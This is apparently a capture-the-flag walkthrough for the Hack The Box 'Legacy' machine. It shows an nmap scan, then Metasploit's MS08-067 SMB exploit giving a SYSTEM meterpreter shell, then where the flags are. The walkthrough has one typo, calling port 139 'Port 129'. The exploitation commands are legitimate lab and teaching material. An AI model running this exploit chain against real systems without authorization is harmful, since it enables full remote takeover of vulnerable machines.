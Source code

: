 # Legacy machine

## Initial scan

```sh
sudo nmap -A -T5 -p- 10.10.10.4
```

Result
```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-15 02:09 EDT
Nmap scan report for 10.10.10.4
Host is up (0.074s latency).
Not shown: 65532 filtered ports
PORT     STATE  SERVICE       VERSION
139/tcp  open   netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open   microsoft-ds  Windows XP microsoft-ds
3389/tcp closed ms-wbt-server
Device type: general purpose|specialized
Running (JUST GUESSING): Microsoft Windows XP|2003|2000|2008 (92%), General Dynamics embedded (88%)
OS CPE: cpe:/o:microsoft:windows_xp cpe:/o:microsoft:windows_server_2003 cpe:/o:microsoft:windows_2000::sp4 cpe:/o:microsoft:windows_server_2008::sp2
Aggressive OS guesses: Microsoft Windows XP SP2 or Windows Small Business Server 2003 (92%), Microsoft Windows 2000 SP4 or Windows XP SP2 or SP3 (92%), Microsoft Windows XP SP2 (92%), Microsoft Windows Server 2003 (90%), Microsoft Windows XP SP3 (90%), Microsoft Windows 2000 SP4 (90%), Microsoft Windows XP Professional SP3 (90%), Microsoft Windows XP SP2 or SP3 (90%), Microsoft Windows XP Professional SP2 (90%), Microsoft Windows XP SP2 or Windows Server 2003 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -3h58m46s, deviation: 1h24m51s, median: -4h58m46s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:f6:5f (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-03-15T05:12:29+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE (using port 3389/tcp)
HOP RTT      ADDRESS
1   73.97 ms 10.10.14.1
2   74.71 ms 10.10.10.4

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 162.70 seconds
```

We have 2 ports, 1 service. Port 129 and port 445. Mostly about SMB. Lets try to exploit this.

## SMB scan

First, let's find out the SMB version that this box is running

```sh
msfconsole
msf5 > search smb_version

Matching Modules
================

   #  Name                               Disclosure Date  Rank    Check  Description
   -  ----                               ---------------  ----    -----  -----------
   0  auxiliary/scanner/smb/smb_version                   normal  No     SMB Version Detection


msf5 > use auxiliary/scanner/smb/smb_version 
```

A quick google for Windows XP SP3 SMB exploit rapid-7 gives us [rapid7](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi)

## Exploitation

We now attempt to exploit the machine

```sh
msf > use exploit/windows/smb/ms08_067_netapi
msf exploit(ms08_067_netapi) > show targets
msf exploit(ms08_067_netapi) > set TARGET 7
msf exploit(ms08_067_netapi) > show options
msf exploit(ms08_067_netapi) > set rhosts 10.10.10.4
msf exploit(ms08_067_netapi) > run
```

We get back a meterpreter shell. Let's first take a look at who we are
```sh
meterpreter > getuid
# Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
# Computer        : LEGACY
# OS              : Windows XP (5.1 Build 2600, Service Pack 3).
# Architecture    : x86
# System Language : en_US
# Domain          : HTB
# Logged On Users : 1
# Meterpreter     : x86/windows
```


Taking a look around with the shell, the flags are found at `C:\Documents and Settings\john\Desktop>` and `C:\Documents and Settings\Administrator\Desktop` with the command `type user.txt`
